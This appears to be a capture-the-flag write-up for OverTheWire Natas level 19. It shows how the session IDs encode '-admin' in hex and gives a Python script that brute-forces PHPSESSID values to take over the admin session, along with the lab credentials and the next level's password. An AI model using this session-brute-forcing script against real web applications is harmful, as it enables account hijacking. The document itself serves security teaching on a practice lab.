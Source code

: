 # Level 19
## What does the page look like?
```html
$ curl -s --user natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs http://natas19.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas19", "pass": "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs" };</script></head>
<body>
<h1>natas19</h1>
<div id="content">
<p>
<b>
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>

<p>
Please login with your admin account to retrieve credentials for natas20.
</p>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
</div>
</body>
</html>
```

## Source code
This time, we are not provided with the source code, but we are told this is almost the same as the previous level, with non sequential session IDs.

## Analysis of PHPSESSID
This time indeed, PHPSESSID no longer seems to be an integer:

!["phpsessid"](files/phpsessid.png)

Let's generate a few session IDs to see how they are generated:

```python
#!/usr/bin/env python3
import requests

auth_user = 'natas19'
auth_pass = '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs'
target = 'http://natas19.natas.labs.overthewire.org'
data = {'username':'admin','password':'password'}

for i in range(20):
	r = requests.post(
		target,
		auth=(auth_user, auth_pass),
		data=data)
	print(r.cookies['PHPSESSID'])
```

The program generates a few IDs where we can find a common part (`2d61646d696e`):
~~~
343934 2d61646d696e
3637   2d61646d696e
313834 2d61646d696e
353435 2d61646d696e
323834 2d61646d696e
3537   2d61646d696e
343231 2d61646d696e
333735 2d61646d696e
353737 2d61646d696e
323833 2d61646d696e
333035 2d61646d696e
353331 2d61646d696e
3736   2d61646d696e
313138 2d61646d696e
313233 2d61646d696e
353234 2d61646d696e
333136 2d61646d696e
313035 2d61646d696e
313332 2d61646d696e
353830 2d61646d696e
~~~

It seems that the session ID concatenates a random number with `2d61646d696e`. Now, if we generate more session IDs to assess the bounderies of the random number, we notice that the random number part:
* has 2 to 6 digits
* the numbers in odd positions (1, 3, 5) are in the range 0-9
* the number in even position (2, 4, 6) is always `3`

## Scripting

Now, let's adapt the script we used in the previous level:

```python
import requests
import sys

auth_user = 'natas19'
auth_pass = '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs'
target = 'http://natas19.natas.labs.overthewire.org'

def check(id):
	phpsessid = '%s2d61646d696e' % id
	r = requests.get(
		target,
		auth=(auth_user, auth_pass),
		cookies={'PHPSESSID': phpsessid}
		)
	print("[REQUEST] PHPSESSID=%s" % phpsessid)
	if 'You are an admin' in r.text:
		print(r.text)
		sys.exit(0)

# 2 digits ID
print("===== 2 digits ID =====")
for i in range(10):
	id = "3%s" % i
	check(id)

# 3 digits ID
print("===== 3 digits ID =====")
for i in range(10):
	id = "3%s3" % i
	check(id)

# 4 digits ID
print("===== 4 digits ID =====")
for i in range(100):
	id = "3%s3%s" % (str(i).zfill(2)[0:1], str(i).zfill(2)[1:2])
	check(id)

# 5 digits ID
print("===== 5 digits ID =====")
for i in range(100):
	id = "3%s3%s3" % (str(i).zfill(2)[0:1], str(i).zfill(2)[1:2])
	check(id)

# 6 digits ID
print("===== 6 digits ID =====")
for i in range(1000):
	id = "3%s3%s3%s" % (str(i).zfill(3)[0:1], str(i).zfill(3)[1:2], str(i).zfill(3)[2:3])
	check(id)
```

Here is the output:
~~~
$ python findsession.py 
===== 2 digits ID =====
[REQUEST] PHPSESSID=302d61646d696e
[REQUEST] PHPSESSID=312d61646d696e
...
[REQUEST] PHPSESSID=382d61646d696e
[REQUEST] PHPSESSID=392d61646d696e
===== 3 digits ID =====
[REQUEST] PHPSESSID=3032d61646d696e
[REQUEST] PHPSESSID=3132d61646d696e
...
[REQUEST] PHPSESSID=3832d61646d696e
[REQUEST] PHPSESSID=3932d61646d696e
===== 4 digits ID =====
[REQUEST] PHPSESSID=30302d61646d696e
[REQUEST] PHPSESSID=30312d61646d696e
[REQUEST] PHPSESSID=30322d61646d696e
...
[REQUEST] PHPSESSID=39382d61646d696e
[REQUEST] PHPSESSID=39392d61646d696e
===== 5 digits ID =====
[REQUEST] PHPSESSID=303032d61646d696e
[REQUEST] PHPSESSID=303132d61646d696e
[REQUEST] PHPSESSID=303232d61646d696e
...
[REQUEST] PHPSESSID=393632d61646d696e
[REQUEST] PHPSESSID=393732d61646d696e
[REQUEST] PHPSESSID=393832d61646d696e
[REQUEST] PHPSESSID=393932d61646d696e
===== 6 digits ID =====
[REQUEST] PHPSESSID=3030302d61646d696e
[REQUEST] PHPSESSID=3030312d61646d696e
[REQUEST] PHPSESSID=3030322d61646d696e
...
[REQUEST] PHPSESSID=3237392d61646d696e
[REQUEST] PHPSESSID=3238302d61646d696e
[REQUEST] PHPSESSID=3238312d61646d696e
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas19", "pass": "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs" };</script></head>
<body>
<h1>natas19</h1>
<div id="content">
<p>
<b>
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>
You are an admin. The credentials for the next level are:<br><pre>Username: natas20
Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre></div>
</body>
</html>
~~~

# Flag
~~~
natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
~~~
